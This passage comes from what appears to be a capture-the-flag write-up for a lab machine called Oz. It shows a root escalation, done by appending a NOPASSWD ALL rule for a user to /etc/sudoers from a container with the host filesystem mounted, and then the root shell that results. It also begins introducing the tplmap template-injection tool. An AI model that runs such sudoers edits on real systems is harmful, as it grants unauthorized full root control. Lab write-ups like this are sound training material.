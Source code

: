 

### sudoers

Editing the `/etc/sudoers` file is even easier:



    /rootfs/etc # chmod 600 sudoers
    /rootfs/etc # echo "dorthi ALL=(ALL) NOPASSWD: ALL" >> sudoers



Then in dorthi shell:



    dorthi@Oz:~$ sudo -l
    Matching Defaults entries for dorthi on Oz:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User dorthi may run the following commands on Oz:
        (ALL) NOPASSWD: ALL
        (ALL) NOPASSWD: /usr/bin/docker network inspect *
        (ALL) NOPASSWD: /usr/bin/docker network ls
    dorthi@Oz:~$ sudo su
    root@Oz:/home/dorthi# id
    uid=0(root) gid=0(root) groups=0(root)



## Beyond Root

### tplmap

In doing this write-up, I came across
[tplmap](https://github.com/epinna/tplmap), which I had not noticed
months ago when I first solved Oz. I think it's worth walking through
manually, so I left the main write-up showing those steps, but I also
wanted to play with a new tool, and it works pretty well.

#### Install

Really easy, just clone the repo:



    root@kali:/opt# git clone https://github.com/epinna/tplmap.git
    Cloning into 'tplmap'...
    remote: Enumerating objects: 88, done.
    remote: Counting objects: 100% (88/88), done.
    remote: Compressing objects: 100% (47/47), done.
    remote: Total 4059 (delta 39), reused 68 (delta 34), pack-reused 3971
    Receiving objects: 100% (4059/4059), 639.25 KiB | 13.05 MiB/s, done.
    Resolving deltas: 100% (2664/2664), done.



Now run it:
